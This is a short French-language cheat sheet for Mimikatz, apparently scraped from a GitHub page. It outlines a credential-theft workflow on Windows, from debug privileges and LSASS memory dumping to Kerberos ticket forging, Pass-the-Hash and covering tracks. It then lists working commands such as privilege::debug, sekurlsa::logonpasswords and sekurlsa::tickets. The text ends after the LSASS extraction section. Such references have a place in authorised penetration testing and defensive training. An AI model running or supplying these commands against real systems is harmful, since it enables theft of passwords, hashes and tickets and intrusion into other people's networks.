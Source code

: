 # Mimikatz - Extraction de Credentials Windows

## 🗂️ Workflow d'utilisation Mimikatz
1. Élévation des privilèges (SeDebugPrivilege)
   ↓
2. Extraction des credentials en mémoire (LSASS)
   ↓
3. Dump des hashes stockés (SAM, LSA secrets)
   ↓
4. Extraction des tickets Kerberos (Golden/Silver)
   ↓
5. Pass-the-Hash et Pass-the-Ticket
   ↓
6. Nettoyage des traces et OPSEC

## 📋 Vue d'ensemble

Mimikatz est l'outil de référence pour l'extraction de credentials Windows en exploitant les mécanismes d'authentification du système. Il peut récupérer des mots de passe en clair, des hashes NTLM, et manipuler les tickets Kerberos.

> **💡 Explication Simple** : C'est comme un passe-partout numérique qui peut ouvrir le coffre-fort de Windows où sont stockés tous les mots de passe et clés d'authentification.

## ⚡ Commandes Essentielles

### Préparation et privilèges
```cmd
# Lancement avec privilèges admin
mimikatz.exe

# Activation du debug privilege
privilege::debug

# Test des privilèges
token::whoami
```

### Extraction LSASS (mémoire)
```cmd
# Dump complet LSASS
sekurlsa::logonpasswords

# Credentials par package
sekurlsa::wdigest
sekurlsa::kerberos  
sekurlsa::tspkg
sekurlsa::livessp

# Tickets Kerberos
sekurlsa::tickets
```
